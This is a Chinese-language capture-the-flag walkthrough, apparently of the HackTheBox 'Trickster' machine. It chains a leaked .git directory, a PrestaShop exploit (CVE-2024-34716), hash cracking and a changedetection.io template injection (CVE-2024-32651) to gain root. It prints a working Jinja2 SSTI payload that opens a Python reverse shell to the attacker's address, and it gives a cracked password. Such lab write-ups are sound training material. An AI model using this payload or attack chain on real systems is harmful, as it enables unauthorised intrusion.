## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Medium |

## Git Hack

我在trickster的主域名发现了一个shop的子域名网站



这个shop看起来像是使用`PrestaShop`搭建，我搜索了一下相关的漏洞，无法直接使用



并且尝试了shop里的各种注入点，没有明显的漏洞，不过在我遍历目录的时候，发现了`.git`的目录



然后我使用`Githack`工具

\[github author="lijiejie" project="GitHack"\]\[/github\]



将这个目录作为url的路径，进入到了后台的登陆界面，并且得到PrestaShop的版本号为`8.1.5`



在之前的`.git`目录下我搜索到了一个`admin_pannel`，里面好像存在一个adam的用户



## CVE-2024-34716

\[github author="aelmokhtar" project="CVE-2024-34716"\]\[/github\]



得到`www-data`权限

在config里面找到一些信息



登录上mysql之后，在`ps_employee`表中发现james的密码hash



使用`hashcat`，破解除了james的密码：`alwaysandforever`



ssh登录上去，得到user.txt



## Privilege Escalation

上传`linpeas`，发现当前服务器运行着docker



上传`fscan`，发现`172.17.0.2`主机

\[github author="shadow1ng" project="fscan"\]\[/github\]



并且发现`5000`端口是打开的



将端口代理出来



进入到`Change Detection`



### CVE-2024-32651

相关知识：[CVE-2024-32651 –（Changedetection.io） – Hacktive 安全博客 (hacktivesecurity.com)](https://blog.hacktivesecurity.com/index.php/2024/05/08/cve-2024-32651-server-side-template-injection-changedetection-io/)

首先在kali上打开httpserver服务，并且添加到change detection





进入Edit，确保URL、Time、Send notification



然后进入notification，在Body处写入SSTI反弹shell的脚本

```
{{ self.__init__.__globals__.__builtins__.__import__('os').system('python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.30",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")\'') }}
```



然后保存即可

此处SSTI的原理是，这个服务会探测网站的变化，如果网站内容有变化那么就会触发通知信息

而Body是允许使用Jinja2模板来写内容



在kali上面，由于打开了80端口的httpserver服务，只需要写入一个`index.html`，并且不断修改他直到被检测到就行了



成功反弹到shell，但是没有root.txt呢？应该只是一个容器

使用`history`命令发现到密码，因为`apt update`需要管理员权限才能执行



使用密码切换到root用户，得到root.txt



## Summary

Git文件泄露好久没遇到过，刚做的时候还没想到这个，去讨论区看了一下才发现

`PrestaShop`的`Github CVE`，在几天前是用不了的（不知道为什么），后来作者修改了一下又能正常使用了

`history`来查看密码泄露也是比较独特的点，之前也没想到
